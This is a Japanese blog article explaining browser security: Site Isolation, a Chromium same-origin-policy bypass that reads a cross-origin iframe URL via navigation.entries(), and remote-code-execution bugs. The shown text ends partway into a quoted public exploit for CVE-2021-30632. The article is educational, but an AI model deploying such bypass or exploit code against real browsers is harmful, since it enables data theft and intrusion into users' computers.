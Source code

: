 たとえば、2018年1月、GoogleのProject Zeroは、CPUの欠陥を介して同じプロセス内のデータを読み取ることができる、歴史的な重大な脆弱性であるMeltdownとSpectreを発表しました。

Chromeブラウザは、この脆弱性に対応して、アーキテクチャをより安全に調整し、異なるWebページがどのような方法でロードされても（画像やiframeなどを含む）、異なるプロセスを使用して処理されるようにしました。この一連のセキュリティ対策はSite Isolationと呼ばれ、[ChromiumのWebページ](https://www.chromium.org/Home/chromium-security/site-isolation/)でより詳細な説明がされています。これについては、後の記事でもう一度触れます。

「他のページ上のものにアクセスできない」という点について、回避策の例を見てみましょう。

2022年、joaxcarはChromiumに脆弱性を報告しました：[Issue 1359122: Security: SOP bypass leaks navigation history of iframe from other subdomain if location changed to about:blank](https://bugs.chromium.org/p/chromium/issues/detail?id=1359122&q=subdomain%20host%20leak&can=1)。これは、iframeの脆弱性を利用して、クロスオリジンのURLを読み取ることができるというものです。

たとえば、現在のWebページが `a.example.com` で、その中に `b.example.com` のURLを持つiframeがあるとします。`frames[0].location = 'about:blank'` を使用してiframeをリダイレクトすると、iframeは `a.example.com` と同一オリジンになります。このとき、iframeの履歴 `frames[0].navigation.entries()` を読み取ると、元の `b.example.com` のURLを取得できます。

これは本来起こるべきではありません。iframeが別のURLにリダイレクトされた場合、`navigation.entries()` はクリアされるはずです。したがって、これはバグです。

これは、同一オリジンポリシーを回避するケースです。URLしか読み取れませんが、それでもセキュリティ上の脆弱性であり、2000ドルの賞金が得られました。

## まとめ

この記事のポイントは1つだけです。それは、「ブラウザが提供しないものは、決して使うことは出来ない」ということです。これは、Webフロントエンドが他の実行環境と大きく異なる点です。逆に、ブラウザが提供しないものを手に入れた場合、それはブラウザの脆弱性を見つけたことを意味し、報告して賞金を獲得できます。

では、最も深刻なブラウザの脆弱性とは何でしょうか？それは、攻撃者がブラウザの制限を突破し、ブラウザのセキュリティ上の仮定に違反する行為を可能にするものです。

たとえば、先ほど紹介したSOPバイパスは、同一オリジンポリシーに違反し、他のWebページのデータを読み取ることができます。先ほど紹介した例ではURLしか読み取れませんでしたが、さらに高度なものではコンテンツを読み取ることさえできます。たとえば、あなたが `https://blog.huli.tw` を開き、私のブログ記事を読んだとします。すると、私のWebサイトがバックグラウンドでJavaScriptを実行し、SOPバイパスの脆弱性を利用して、あなたが `https://mail.google.com` で見ているすべてのメールの内容を読み取ってしまうのです。

恐ろしいですよね？しかし、もっと恐ろしいことがあります。

最も深刻なのは、攻撃者がJavaScriptを介してブラウザの脆弱性を悪用し、コンピュータ上で任意のコマンドを実行できることです。この種の脆弱性は、RCE（Remote Code Execution、リモートコード実行）と呼ばれます。

例を挙げましょう。あなたが私のブログを開いていくつかの記事を読んで閉じると、その時点で私はあなたのコンピュータにコマンドを送信できるようになっています。あなたのコンピュータからすべてのデータを盗んだり、密かにマルウェアをインストールしたりできます。過去にはこのような事例が何度も発生しており、一定の間隔でブラウザにこの種の最も深刻な脆弱性が現れます。私たち一般ユーザーができることは、できるだけ早くブラウザを更新して、危険にさらされる可能性を減らすことだけです。

2021年9月には、CVE-2021-30632という脆弱性が公開されました。これはまさに私が先ほど説明したRCEであり、Chromeブラウザ（v93以前のバージョン）でWebページを開くだけで、攻撃者があなたのコンピュータに侵入してコマンドを実行できるというものでした。

あなたは通常、この種の攻撃のJavaScriptコードがどのようなものなのか、どのような機能を利用して、最終的にブラウザを介して任意のコードを実行できるのか疑問に思うかもしれません。

以下は、CVE-2021-30632のエクスプロイトの1つで、そのソースは次のとおりです：https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html

```html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
<script type="text/javascript">

function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
```